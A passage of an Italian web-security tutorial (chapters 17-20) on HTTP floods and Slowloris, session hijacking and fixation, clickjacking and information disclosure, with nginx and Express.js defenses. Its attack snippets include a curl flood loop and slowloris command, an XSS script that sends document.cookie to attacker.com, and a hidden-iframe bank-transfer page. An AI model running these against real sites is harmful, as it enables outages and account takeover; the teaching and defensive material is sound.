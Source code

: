 # Capitoli 17-20: Sicurezza HTTP Avanzata
# DoS, Session Security, Clickjacking, Information Disclosure

---

# 17. Denial of Service (DoS/DDoS)

## 17.1 HTTP Flood Attack

### Attacco
```bash
# Simple flood
while true; do curl http://example.com & done

# Apache Bench flood
ab -n 100000 -c 1000 http://example.com/

# Slowloris
slowloris -s 500 example.com
```

### Mitigation - Rate Limiting

**Nginx:**
```nginx
http {
    limit_req_zone $binary_remote_addr zone=one:10m rate=10r/s;
    
    server {
        location /api/ {
            limit_req zone=one burst=20 nodelay;
        }
    }
}
```

**Express.js:**
```javascript
const rateLimit = require('express-rate-limit');

const limiter = rateLimit({
    windowMs: 60 * 1000,
    max: 100,
    message: 'Too many requests'
});

app.use('/api/', limiter);
```

## 17.2 Slowloris Attack

### Come funziona
```
POST /upload HTTP/1.1
Host: example.com
Content-Length: 1000000

[invia 1 byte ogni 10 secondi]
→ Connessione rimane aperta
→ Esaurisce risorse server
```

### Mitigation
```nginx
client_body_timeout 10s;
client_header_timeout 10s;
send_timeout 10s;
limit_conn_zone $binary_remote_addr zone=addr:10m;
limit_conn addr 10;
```

---

# 18. Session Hijacking

## 18.1 Cookie Theft via XSS

### Attacco
```javascript
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

### Defense - HttpOnly Cookie
```javascript
app.use(session({
    cookie: {
        httpOnly: true,
        secure: true,
        sameSite: 'strict'
    }
}));
```

## 18.2 Session Fixation

### Attacco
```
1. Attaccante: SESSIONID=abc123
2. Vittima visita: example.com/?SESSIONID=abc123
3. Vittima fa login (sessione abc123 autenticata)
4. Attaccante usa abc123 → accesso!
```

### Defense
```javascript
app.post('/login', (req, res) => {
    if (authenticate(req.body.username, req.body.password)) {
        req.session.regenerate((err) => {
            req.session.user = req.body.username;
            res.redirect('/dashboard');
        });
    }
});
```

---

# 19. Clickjacking

## 19.1 Attacco

```html
<style>
iframe { opacity: 0; position: absolute; }
</style>
<h1>Vinci un premio!</h1>
<iframe src="https://bank.com/transfer?to=attacker&amount=1000"></iframe>
```

## 19.2 Defense - X-Frame-Options

```nginx
add_header X-Frame-Options "DENY";
```

```javascript
app.use((req, res, next) => {
    res.setHeader("X-Frame-Options", "SAMEORIGIN");
    res.setHeader("Content-Security-Policy", "frame-ancestors 'self'");
    next();
});
```

---

# 20. Information Disclosure

## 20.1 Server Headers

### Problema
```http
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/7.4.3
```

### Soluzione
```nginx
server_tokens off;
```

```javascript
app.disable('x-powered-by');
```

## 20.2 Error Messages

### Problema
```javascript
app.get('/api/user', (req, res) => {
    db.query(query, (err) => {
        res.status(500).send(err.stack); // ❌ Leak info
    });
});
```

### Soluzione
```javascript
app.get('/api/user', (req, res) => {
    db.query(query, (err, results) => {
        if (err) {
            console.error(err);
            res.status(500).send('Internal server error');
        } else {
            res.json(results);
        }
    });
});
```

---

**Capitoli 17-20 completati!**
